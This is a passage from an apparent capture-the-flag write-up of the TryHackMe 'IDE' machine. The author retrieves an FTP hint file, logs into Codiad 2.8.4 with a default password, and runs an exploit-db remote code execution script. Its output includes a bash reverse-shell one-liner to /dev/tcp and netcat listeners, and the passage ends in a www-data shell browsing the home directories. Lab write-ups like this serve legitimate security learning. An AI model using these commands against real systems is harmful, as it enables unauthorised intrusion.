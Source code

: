 ```bash
  drwxr-xr-x    3 0        114          4096 Jun 18  2021 ..
  226 Directory send OK.
	ftp> get -
```
The file with the name `-` gives us some hints:
```bash
$ cat ./-
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```

## Port 80 Analysis
The webserver showing us an Apache2 default page. After several enumeration techniques I didn't found anything interesting and moved to the next port.

## Port 62337 Analysis
The website shows a login to Codiad version `2.8.4`. With the message we found previous let's try some default passwords we have in mind. Success :)

![Codiad](/assets/img/tryhackme/IDE/thm_die_1.jpg){: width="1270" height="925"}

Played around with the site but didn't found anything intersting. I found the following <a href="https://www.exploit-db.com/exploits/49705">exploit-db</a> entry which seems to help out:
```bash
$ python3 exploit.py http://[attacker ip]:62337/ john [removed] [attacker ip] 9001 linux
  [+] Please execute the following command on your vps: 
  echo 'bash -c "bash -i >/dev/tcp/[attacker ip]/9002 0>&1 2>&1"' | nc -lnvp 9001
  nc -lnvp 9002
  [+] Please confirm that you have done the two command above [y/n]
  [Y/n] y
  [+] Starting...
  [+] Login Content : {"status":"success","data":{"username":"john"}}
  [+] Login success!
  [+] Getting writeable path...
  [+] Path Content : {"status":"success","data":{"name":"CloudCall","path":"\/var\/www\/html\/codiad_projects"}}
  [+] Writeable Path : /var/www/html/codiad_projects
  [+] Sending payload...
```
In the other terminal we got our shell:
```bash
$ nc -lnvp 9002 
  listening on [any] 9002 ...
  connect to [10.21.63.26] from (UNKNOWN) [10.10.249.68] 55924
  bash: cannot set terminal process group (1003): Inappropriate ioctl for device
  bash: no job control in this shell
www-data@ide:/var/www/html/codiad/components/filemanager$
www-data@ide:/var/www/html/codiad/components/filemanager$ cd /home
	cd /home
www-data@ide:/home$ ls
  ls
  drac
www-data@ide:/home$ cd drac
	cd drac
www-data@ide:/home/drac$ ls
  ls
  user.txt
www-data@ide:/home/drac$ cat user.txt
  cat user.txt
  cat: user.txt: Permission denied
www-data@ide:/home/drac$
```